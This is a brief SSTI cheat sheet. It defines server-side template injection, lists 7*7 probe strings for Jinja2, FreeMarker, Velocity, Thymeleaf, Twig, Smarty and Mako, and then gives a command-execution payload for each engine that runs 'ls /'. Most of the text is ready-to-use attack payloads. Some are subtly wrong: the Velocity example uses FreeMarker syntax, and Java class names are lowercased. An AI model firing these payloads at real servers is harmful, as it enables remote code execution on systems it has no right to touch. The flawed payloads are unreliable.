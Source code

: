 # ssti
server-side template injection (ssti) is a web security vulnerability that occurs when user input is unsafely embedded into a server-side template.

## **template engine**: engine software which is used to generate html dynamically. it replaces placeholders in templates with actual data.

**common template engines and their playloads**

jinja2 (python flask/django): ``{{ 7*7 }}``
freemarker (java):`` ${7*7}``
velocity (java):`` #set($a = 7*7)${a}``
thymeleaf (java): ``${7*7}``
twig (php symfony):`` {{ 7*7 }}``
smarty (php):`` {$7*7}``
mako (python):`` <% print 7*7 %>``



```jinja
{{ ''.__class__.__mro__[1].__subclasses__()[59]('import os; os.popen("ls /").read()', 'exec') }}
```

```freemarker
${"freemarker.template.utility.execute"?new()("ls /")}
```

```velocity
#set($x = "freemarker.template.utility.execute"?new())
$x("ls /")
```

```thymeleaf
${t(java.lang.runtime).getruntime().exec("ls /")}
```

```twig
{{ constant('symfony\\component\\process\\process')('ls /') }}
```

```smarty
{php}system('ls /');{/php}
```

```mako
<% import os; os.system("ls /") %>
```

